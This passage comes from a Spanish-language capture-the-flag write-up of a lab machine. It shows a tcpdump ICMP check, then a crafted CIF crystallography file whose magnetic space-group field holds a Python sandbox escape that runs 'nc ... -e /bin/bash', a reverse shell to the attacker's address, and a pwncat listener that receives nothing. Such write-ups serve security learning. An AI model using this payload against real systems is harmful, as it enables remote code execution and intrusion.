 Ahora si lo subimos y lo intentamos visualizar, vemos que si que nos llega la traza ICMP.
```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:57:01.643572 IP 10.129.201.7 > 10.10.16.15: ICMP echo request, id 2, seq 1, length 64
15:57:01.643599 IP 10.10.16.15 > 10.129.201.7: ICMP echo reply, id 2, seq 1, length 64
```

Seguimos viendo el error 500 pero eso era esperado, ahora vamos a ganar acceso a la máquina.
![Write-up Image](images/Screenshot_10.png)

Editamos el archivo con el código malicioso para enviarnos una reverse shell.
```console
$ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("nc 10.10.16.15 443 -e /bin/bash");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

No recibimos la reverse shell.
```console
$ sudo pwncat-cs -lp 443
[16:00:49] Welcome to pwncat 🐈!                                           __main__.py:164
bound to 0.0.0.0:443 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

